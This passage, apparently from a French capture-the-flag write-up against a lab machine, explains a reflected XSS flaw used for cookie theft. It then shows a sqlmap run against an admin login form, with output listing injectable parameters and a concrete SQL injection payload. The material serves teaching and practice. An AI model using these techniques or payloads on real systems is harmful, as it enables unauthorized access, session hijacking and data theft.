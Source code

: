 En remplaçant ici les paramètres par du code Javascript, celui-ci sera réécrit dans la réponse du serveur et s'exécutera dans le navigateur du client. Si le code JavaScript utilisé ici est relativement bénin, il est possible de se servir de cette vulnérabilité pour créer des liens malveillants qui, une fois cliqués par la victime, déclencheront l'exécution du code malveillant dans son navigateur. Il s'agit du cas d'exploitation typique : l'exploitation de ces failles amène à la compromission et au vol de données privées d'un utilisateur. La première stratégie d'un attaquant consiste en général à la récupération d'un cookie pour ensuite usurper l'identité de sa cible.

### Bonus n°2 : Injection SQL sur la page d'authentification admin

![Affichage de l'image CTF4_SQLi2.png](images/CTF4_SQLi2.png)

```console
root@blinils:~# sqlmap -u "http://192.168.56.104/admin/index.php" --data="username=test&password=abc" --dbms=MySQL

--snip--
[01:11:11] [INFO] testing connection to the target URL
[01:11:11] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[01:11:11] [INFO] testing if the target URL content is stable
[01:11:11] [INFO] target URL content is stable
[01:11:11] [INFO] testing if POST parameter 'username' is dynamic
[01:11:11] [WARNING] POST parameter 'username' does not appear to be dynamic
[01:11:11] [INFO] heuristic (basic) test shows that POST parameter 'username' might be injectable (possible DBMS: 'MySQL')
[01:11:11] [INFO] heuristic (XSS) test shows that POST parameter 'username' might be vulnerable to cross-site scripting (XSS) attacks
--snip--
[01:11:11] [INFO] POST parameter 'username' appears to be 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause' injectable (with --string="In")
[01:11:11] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
--snip--
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
[01:11:11] [INFO] testing if POST parameter 'password' is dynamic
[01:11:11] [WARNING] POST parameter 'password' does not appear to be dynamic
[01:11:11] [INFO] heuristic (basic) test shows that POST parameter 'password' might be injectable (possible DBMS: 'MySQL')
[01:11:11] [INFO] heuristic (XSS) test shows that POST parameter 'password' might be vulnerable to cross-site scripting (XSS) attacks
--snip--
[01:11:11] [INFO] POST parameter 'password' is 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)' injectable 
[01:11:11] [INFO] POST parameter 'password' appears to be 'MySQL >= 5.0.12 OR time-based blind' injectable 
--snip--

Parameter: password (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment) (NOT)
    Payload: username=test&password=abc') OR NOT 7810=7810#

    Type: error-based
    Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
```